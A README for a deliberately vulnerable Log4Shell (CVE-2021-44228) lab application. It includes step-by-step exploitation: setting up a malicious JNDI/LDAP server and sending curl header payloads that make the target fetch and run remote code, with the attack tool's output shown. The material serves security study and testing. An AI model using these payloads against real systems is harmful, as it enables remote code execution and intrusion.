 # Log4Shell sample vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228,
nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_181.

![](./screenshot.png)

## Running the application

Run it:

```bash
docker run --name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

Build it yourself (you don't need any Java-related tooling):

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```

### Without docker

    gradle clean bootJar --no-daemon
    java -jar ./build/libs/log4shell-vulnerable-app-0.0.1-SNAPSHOT.jar

And to send the exploit:

    curl 127.0.0.1:8080 -H 'X-Api-Version: <PAYLOAD>'

## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/)
. **Run at your own risk, preferably in a VM in a sandbox environment**.*

**Update (Dec 13th)**: *The JNDIExploit repository has been removed from GitHub (
presumably, [not by GitHub](https://twitter.com/_mph4/status/1470343429599211528)). Just append `web.archive.org` in
front of the JNDIExploit download URL below to use the version cached by the Wayback Machine.*

* Use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up a malicious LDAP server

```bash
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

* Then, trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

* Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

* To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container
  running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp
...
pwned
...
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/

## Contributors

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)

## TL;DR POC/easy start

### Start vulnerable target

    git clone https://github.com/HenryFBP/log4shell-vulnerable-app
    cd log4shell-vulnerable-app
    gradle clean bootJar --no-daemon
    java -jar ./build/libs/log4shell-vulnerable-app-0.0.1-SNAPSHOT.jar

### Start attacker's LDAP server

    git clone https://github.com/HenryFBP/JNDI-Exploit-Server
    cd JNDI-Exploit-Server
    # mvn clean package # disabled due to issues with dependencies.
    java -jar .\etc\JNDIExploit-1.2-SNAPSHOT-from-black9-Log4shell_JNDIExploit.jar -i localhost -p 8081

### Send payload to vulnerable target (need GNU curl...)

```bash
choco install -y curl
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://localhost:1389/Basic/Command/Base64/Y2FsYy5leGU=}'
```